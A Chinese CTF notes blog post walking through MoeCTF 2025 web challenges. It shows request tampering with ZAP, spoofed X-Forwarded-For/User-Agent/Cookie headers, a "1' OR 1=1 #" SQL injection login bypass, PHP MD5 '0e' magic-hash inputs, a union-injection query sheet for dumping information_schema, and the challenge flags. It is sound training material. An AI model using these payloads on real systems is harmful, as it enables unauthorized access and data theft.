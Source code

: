 ```yaml
---
title: day6
categories:
  - ctf
  - note
---
```


一些题目+ ZAP工具的使用 + SQL 相关

<!--more-->

## MeoCTF 题目 [03 第三章 问剑石！篡天改命！](https://ctf.xidian.edu.cn/training/22?challenge=882)
### 标签: MoeCTF2025 Web Web安全与渗透测试
进入题干给的靶机地址发现API: **/test_talent** 这个是服务器提交和获取flag的关键
同时查看代码
```javascript
        async function testTalent() {
            try {
                const response = await fetch('/test_talent?level=B', {
                    method: 'POST',
                    headers: {
                        'Content-Type': 'application/json'
                    },
                    body: JSON.stringify({ manifestation: 'none' })
                });
                
                const data = await response.json();
                document.getElementById('result').textContent = data.result;
                
                // 显示/隐藏光芒效果
                const glow = document.getElementById('glow');
                if (data.result.includes('流云状青芒')) {
                    glow.style.opacity = '1';
                } else {
                    glow.style.opacity = '0';
                }
                
                if (data.flag) {
                    setTimeout(() => {
                        alert(`✨ 天道机缘：${data.flag} ✨\n\n天赋篡天术大成！`);
                    }, 500);
                }
            } catch (error) {
                alert('玄轨连接中断！请检查灵枢...');
            }
        }
```

发现只要修改 这个fetch发出的 **GET** 参数为 **leve=S**， **POST**参数为 **flowing_azure_clouds** 即可获得flag
于是使用ZAP 抓包并修改发出的消息得到
```json
{"flag":"moectf{get-posT_tr4N5mISsI0n-ls-a-Go0D-METhoDl!la7}","result":"\u5929\u8d4b\uff1aS\uff0c\u5149\u8292\uff1a\u6d41\u4e91\u72b6\u9752\u8292","status":"\u5929\u9053\u7be1\u6539\u6210\u529f\uff01"}
```

## MeoCTF 题目 [04 第四章 金曦破禁与七绝傀儡阵](https://ctf.xidian.edu.cn/training/22?challenge=884&tab=terminal)
### 标签: MoeCTF2025 Web Web安全与渗透测试
进入后发现需要使用GET方法传递参数 key=xdsec 获得
```TEXT
bW9lY3Rme0Mw
```
后提供下一阶段的网址，进入后发现需要使用POST方法请求数据：declaration=织云阁=第一，不过显然这个不能直接发送需要经过url编码
将**织云阁=第一** url 编码后得到
```TEXT
%E7%BB%87%E4%BA%91%E9%98%81%3D%E7%AC%AC%E4%B8%80
```
获得
```TEXT
bjZyNDd1MTQ3
```
后发现下一阶段的路由，要求使用本地访问,故往请求头添加 X-Forwarded-For: 127.0.0.1
得到下一阶段路由和线索
```TEXT
MTBuNV95MHVy
```

进入下一阶段的路由要求使用 moe browser 访问,故修改请求头 User-Agent: 参数为**moe browser**
得到下一阶段的路由和线索
```TEXT
X2g3N1BfbDN2

```
进入下一阶段的路由发现 需要以xt的身份认证user! 说明是使用Cookie 故添加**Cookie: user=xt**
获得下一阶段路由和线索
```
M2xfMTVfcjM0
```

进入下一阶段发现 要求我们从指定的地址**http://panshi/entry** 跳转过来,故修改
获得下一阶段的路由和线索
```TEXT
bGx5X2gxOWgh
```


进入下一阶段的发现， 要求我们从指定地址中要求使用 PUT 方法，获取最后一段线索
```TEXT
fQ==
```

将所有信息拼合发现这是一段BASE64编码
bW9lY3Rme0MwbjZyNDd1MTQ3MTBuNV95MHVyX2g3N1BfbDN2M2xfMTVfcjM0bGx5X2gxOWghfQ==
解码得: moectf{C0n6r47u14710n5_y0ur_h77P_l3v3l_15_r34lly_h19h!}


## MeoCTF 题目 [05 第五章 打上门来](https://ctf.xidian.edu.cn/training/22?challenge=885)
### 标签: MoeCTF2025 Web Web安全与渗透测试

进入靶机后发现这是一个文件查询系统发现可以直接输入 **/flag** 进入根目录 发现flag文件
moectf{A11_lNpUt-Is_M@Ilc10uS6cdaec74}


## MeoCTF 题目 [06 第六章 藏经禁制？玄机初探！](https://ctf.xidian.edu.cn/training/22?challenge=886&tab=terminal)\
### 标签: MoeCTF2025 Web Web安全与渗透测试
进入题目后发现是一个登陆界面，可以猜测是要求进行SQL注入故尝试输入
```TEXT
1' OR 1=1 #
```
果然获得flag：moectf{w3LcOm3_TO_sql-lnjeCtl0nl11a99967b}

## MeoCTF 题目 [07 第七章 灵蛛探穴与阴阳双生符](https://ctf.xidian.edu.cn/training/22?challenge=887)
### 标签: MoeCTF2025 Web Web安全与渗透测试
根据题干说明，可知要求获取该靶机网站的根目录 robot.txt
请求发现 信息信息 **/flag.php**
```php

<?php
highlight_file(__FILE__);
$flag = getenv('FLAG');

$a = $_GET["a"] ?? "";
$b = $_GET["b"] ?? "";

if($a == $b){
    die("error 1");
}

if(md5($a) != md5($b)){
    die("error 2");
}

echo $flag;
```

使用数组绕过发现不可行，于是使用0e绕过，输入:
```TEXT
http://127.0.0.1:57562/flag.php?a=240610708&b=QNKCDZO
```

得到 flag：moectf{MD5-lS-NOT-5afE111713b01866a}

#### note:
  常用的0e绕过MD5字符串
```TEXT
字符串：240610708
MD5: 0e462097431906509019562988736854

字符串：QNKCDZO
MD5: 0e830400451993494058024219903391
```


## MeoCTF 题目 [08 第八章 天衍真言，星图显圣](https://ctf.xidian.edu.cn/training/22?challenge=889&tab=terminal)
### 标签: MoeCTF2025 Web Web安全与渗透测试
依旧是SQL注入 完成后获得flag：moectf{uNIon-B@seD-sQ1i-ftwl!11e1b05e9}


#### note 常用SQL 代码
```SQL
SELECT 1, 2, ...  # 查询列数
select table_name,列数 from information_schema.tables where table_schema=database() # 查询系统表 列出该数据库的所有表
select column_name,列数 from information_schema.columns where table_name='TableName'  # 查询名为TableName的表 查看他的所有列名
select 列名,列数 from TableName # 从TableName 中查找对应的值

```

## MeoCTF 题目 [Moe笑传之猜猜爆](https://ctf.xidian.edu.cn/training/22?challenge=908)
### 标签: MoeCTF2025 Web
F12 查看源码发现 判断猜数的JS 并没有做混淆 直接使用**覆盖** 修改其中的猜中判断方法 **checkGuess()**
获得flag: moectf{b38b9fc5-2703-e415-6fed-676213dc04bc}

